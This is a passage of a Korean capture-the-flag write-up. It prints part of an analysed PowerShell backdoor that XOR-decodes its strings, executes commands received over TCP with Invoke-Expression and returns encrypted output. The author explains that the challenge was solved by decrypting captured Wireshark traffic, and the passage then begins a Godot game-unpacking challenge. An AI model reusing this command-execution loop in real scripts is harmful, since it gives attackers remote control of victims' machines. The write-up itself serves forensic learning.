 ```powershell
    # "exit" 명령 수신 시 루프 종료
    if ($DecryptedCommand -eq (XORDecryptBytes -EncryptedBytes @(109, 112, 97, 124) -XORKey 8)) { break } # "exit"

    try {
        # 복호화된 명령을 Invoke-Expression으로 실행하고 결과를 문자열로 캡처
        $CommandOutput = (Invoke-Expression $DecryptedCommand 2>&1) | Out-String
    }
    catch {
        # 명령 실행 중 오류 발생 시 "Error" 메시지 반환
        $CommandOutput = (XORDecryptBytes -EncryptedBytes @(186, 141, 141, 144, 141) -XORKey 255) # "Error"
    }

    # 명령 실행 결과를 암호화하여 전송 형식에 맞게 구성
    $EncodedEncryptedOutput = EncodeAndEncryptCommand -CommandString $CommandOutput.Trim()
    # 암호화된 결과 전송
    $NetworkStream.Write($EncodedEncryptedOutput, 0, $EncodedEncryptedOutput.Length)
}

# 연결 종료
$NetworkStream.Close()
$TCPClient.Close()
```

특정 서버와 연결해, 네트워크로 받은 값을 기반으로 커멘드를 실행하고 값을 보내는 스크립트입니다.

저는 이 이후에 `$TCPClient.Connect((XORDecryptBytes -EncryptedBytes...` 부분을 조작해 여러 시도를 하였지만 실패하였습니다.

- wireshark에 있는 주소로 해당 값을 변경함 - 해당 ip가 살아있지 않음
- 스크립트를 다운로드 받은 서버의 ip로 설정함 - 로그인 페이지가 불러와짐...

여러 시도 끝에, 그냥 wireshark의 패킷을 복호화하는것이라는것을 알아냈으며, wireshark 내부의 데이터를 복호화하여 풀 수 있었습니다.

## godot

### 문제 상황

`godot` 게임 파일이 주어졌으며, 게임을 클리어하기에는 조금 힘들었습니다.

### 분석 과정

주어진 리소스 파일을 언패킹 시도하였습니다.

리소스 파일은 키가 필요했으며, [PCKExplorer](https://github.com/DmitriySalnikov/GodotPCKExplorer) 레포지토리 내부의 bruteforcer를 빌드하여 실행해 키를 알아냈습니다.
